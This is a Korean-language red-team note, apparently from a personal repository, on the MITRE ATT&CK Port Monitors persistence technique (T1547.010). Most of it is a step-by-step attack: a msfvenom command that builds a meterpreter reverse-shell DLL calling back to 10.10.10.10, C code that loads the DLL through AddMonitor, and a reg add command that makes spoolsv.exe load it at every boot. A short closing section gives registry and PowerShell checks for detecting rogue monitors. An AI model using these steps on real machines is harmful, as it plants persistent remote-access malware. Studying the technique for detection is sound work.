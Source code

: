 # T1547.010 Port Monitors

Status: Persistence

---

# Summary

- MITRE ATT&CK : Enterprise - Persistence - Boot or Logon Autostart Execution - Port Monitors
- Require Privilege : Administrator Level
- Running Privilege : Administrator Level
- Description : `spoolsv.exe`의 AddMonitor API 함수를 이용하여 악성 dll을 로딩한다.

---

# How To

## Step 1. 악성 DLL 생성

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f dll > malicious.dll
```

## Step 2. DLL 로더 제작

```c
// Monitors.exe
#include "Windows.h"
 
int main() {
    MONITOR_INFO_2 monitorInfo;
    TCHAR env[12] = TEXT("Windows x64");
    TCHAR name[12] = TEXT("Monitor");
    TCHAR dll[12] = TEXT("malicious.dll");
    monitorInfo.pName = name;
    monitorInfo.pEnvironment = env;
    monitorInfo.pDLLName = dll;
    AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
    return 0;
}
```

## Step 3. DLL 로딩

```bash
cmd> copy C:\Users\pentestlab\Desktop\malicious C:\Windows\System32
cmd> C:\Windows\System32\Monitors.exe
```

---

# To Persistence

- [How To] 와 같은 방식으로 수행하면 시스템 재부팅시 소멸
- 악성코드로서 지속성을 유지하려면 아래와 같은 방법 사용

방법 1. 다른 Persistence와 연계하여 `System32/Monitor.exe` 실행

- Task Scheduler나 Service와 같이 다른 Persistence를 이용하여 DLL 로더를 트리거
- 하지만 이 방법의 경우 관리자 수준의 권한이 매번 필요

방법 2. 관련 레지스트리 키를 감염

```
reg add "hklm\system\currentcontrolset\control\print\monitors\Malicious" /v "Driver" /d "malicious.dll" /t REG_SZ
```

- `spoolsv.exe` 가 실행될 때 참조하는 레지스트리 키에 악성 DLL을 등록
- `spoolsv.exe` 는 여기에 등록된 DLL을 전부 로딩

---

# Blue Team Solution

## A. 등록된 포트 모니터를 확인

방법 1. reg 명령어

```
PS> reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\Appmon
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\Local Port
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\Microsoft Shared Fax Monitor
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\ssd3c Langmon
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\Standard TCP/IP Port
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\USB Monitor
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors\WSD Port
```

방법 2. Powershell을 이용하여 Recursive 하게 탐색([방법 1] 보다 정밀함)

```powershell
Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Control\Print 
|Get-ItemProperty 
| where { $_ -match "\\\\(.*)\\(.*).dll" }
```

